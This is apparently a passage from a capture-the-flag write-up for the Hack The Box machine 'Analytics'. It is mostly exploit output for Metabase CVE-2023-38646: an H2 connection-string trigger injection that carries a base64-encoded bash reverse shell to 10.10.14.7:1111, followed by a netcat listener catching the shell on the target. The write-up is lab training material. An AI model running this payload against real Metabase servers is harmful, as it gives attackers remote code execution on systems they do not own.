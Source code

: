 ```bash
[DEBUG] Version: v0.46.6
[DEBUG] Setup token: 249fa03d-fd94-4d5b-b94f-b4ebf3df681f
[DEBUG] Payload = YmFzaCAtaSA+Ji9kZXYvdGNwLzEwLjEwLjE0LjcvMTExMSAwPiYx
[DEBUG] Sending request to http://data.analytical.htb/api/setup/validate with headers {'Content-Type': 'application/json'} and data {
    "token": "249fa03d-fd94-4d5b-b94f-b4ebf3df681f",
    "details": {
        "is_on_demand": false,
        "is_full_sync": false,
        "is_sample": false,
        "cache_ttl": null,
        "refingerprint": false,
        "auto_run_queries": true,
        "schedules": {},
        "details": {
            "db": "zip:/app/metabase.jar!/sample-database.db;MODE=MSSQLServer;TRACE_LEVEL_SYSTEM_OUT=1\\;CREATE TRIGGER pwnshell BEFORE SELECT ON INFORMATION_SCHEMA.TABLES AS $$//javascript\njava.lang.Runtime.getRuntime().exec('bash -c {echo,YmFzaCAtaSA+Ji9kZXYvdGNwLzEwLjEwLjE0LjcvMTExMSAwPiYx}|{base64,-d}|{bash,-i}')\n$$--=x",
            "advanced-options": false,
            "ssl": true
        },
        "name": "test",
        "engine": "h2"
    }
}
[DEBUG] Response received: {"message":"Error creating or initializing trigger \"PWNSHELL\" object, class \"..source..\", cause: \"org.h2.message.DbException: Syntax error in SQL statement \"\"//javascript\\\\000ajava.lang.Runtime.getRuntime().exec('bash -c {echo,YmFzaCAtaSA+Ji9kZXYvdGNwLzEwLjEwLjE0LjcvMTExMSAwPiYx}|{base64,-d}|{bash,-i}')\\\\000a\"\" [42000-212]\"; see root cause for details; SQL statement:\nSET TRACE_LEVEL_SYSTEM_OUT 1 [90043-212]"}
[DEBUG] POST to http://data.analytical.htb/api/setup/validate failed with status code: 400
```

```bash
┌──(bravosec㉿fsociety)-[~/htb/Analytics/exploit/CVE-2023-38646]
└─$ nc -lvnp 1111
listening on [any] 1111 ...
connect to [10.10.14.7] from (UNKNOWN) [10.129.49.172] 38842
bash: cannot set terminal process group (1): Not a tty
bash: no job control in this shell
2e299cf65045:/$ id
id
uid=2000(metabase) gid=2000(metabase) groups=2000(metabase),2000(metabase)
2e299cf65045:/$ cat ~/user.txt
cat ~/user.txt
cat: can't open '/home/metabase/user.txt': No such file or directory
```

> `python`, `python3`, `script` are not on the box, can't spawn tty shell


## From metabase in docker container to metalytics on host
